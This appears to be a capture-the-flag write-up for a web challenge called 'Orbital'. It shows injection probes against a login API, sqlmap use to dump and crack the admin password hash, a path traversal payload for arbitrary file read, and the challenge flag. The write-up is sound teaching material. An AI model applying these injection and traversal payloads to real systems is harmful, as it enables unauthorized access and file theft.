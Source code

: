 # web/Orbital

### Description
> In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?

We have access to a web page, on it we can see login form

![orbital1](/2023/Cyber_Apocalypse/web/images/orbital1.png)

Also we can see that login form send works through API:
```
const login = () => {
   let username = $('#username').val();
   let password = $('#password').val();

   if ($.trim(username) === '' || $.trim(password) === '') {
       show_message();
       return;
   }

   fetch('/api/login', {
       method: 'POST',
       headers: {
           'Content-Type': 'application/json'
       },
       body: JSON.stringify({
           'username': username,
           'password': password
       })
   })
   .then((res) => {
       if (res.status === 200) window.location.replace('/home');
       else show_message();
   });
}
```

This request  `{"username":"admin", "password": {"$ne": "bar"} }` gives `{"error":{"message":["'dict' object has no attribute 'encode'"],"type":"AttributeError"}}` so admin account exists

And `{"username":"admin\"","password":"1234"}` gives `{"error":{"message":["1064","You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\"admin\"\"' at line 1"],"type":"ProgrammingError"}}`

So login form is vulnerable to blind SQLi and we are working with MariaDB

And only at this moment I realised that we have access to source code :/

I used sqlmap and got admin hash

hash **1692b753c031f2905b89e7258dbc49bb**
admin password ichliebedich (googled by hash)

So now we have access to this page
![orbital2](/2023/Cyber_Apocalypse/web/images/orbital2.png)

And then we can find arbitrary file download which we can utilize to read flag file (we know it location from source code)

`{"name":"../signal_sleuth_firmware"}`

*HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}*

